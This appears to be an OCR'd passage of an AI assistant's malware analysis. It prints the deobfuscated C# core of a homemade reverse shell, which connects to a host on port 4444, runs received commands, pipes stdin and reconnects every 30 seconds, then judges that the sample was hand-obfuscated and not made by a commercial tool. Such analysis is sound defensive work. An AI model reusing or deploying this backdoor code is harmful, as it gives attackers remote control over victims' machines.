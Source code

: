 ```
    }

    public static void z() {                    // kill current process tree
        Process.GetCurrentProcess().Kill();
    }

    public static void b(string k) {            // main loop/dispatcher
        c = new A(k, 4444);
        while (true) {
            var b = c.k();                      // read command frame
            var a = b.Skip(1).ToArray();        // payload without cmd byte
            switch (b[0]) {
                case 50:  v(a); break;          // '2' -> spawn
                case 100: x(a); break;          // 'd' -> stdin
                case 200: y(a); break;          // 200 -> close stdin
                case 150: z();  break;          // 150 -> self-kill
            }
        }
    }

    public static void ma(string host) {        // entrypoint
        while (true) {
            try { b(host); }
            catch { }
            Thread.Sleep(30000);                // retry after 30s
        }
    }
}

```



Notes:

-   The **protocol** is very simple (no encryption/compression): one cmd byte, then two little-endian ints (PID and payload length), then payload. That’s typical of DIY shells and not what you see in more mature frameworks.
    
-   **Single-letter identifiers**, minimal error handling, and raw `Encoding.Default` are also “homebrew” smells.
    
-   No **resource names**, **copyright strings**, or **generator artifacts**.
    

### Bottom line

Given the reversing style (string reversal + base64), the minimal framing protocol, and absence of framework fingerprints, this was almost certainly obfuscated manually (or with a few ad-hoc helper scripts), **not** by a commercial/known obfuscator.

If you can grab the **full** `$g` blob (yours is truncated), I’ll re-run it and hunt for any subtle markers—but I don’t expect to find a vendor signature.

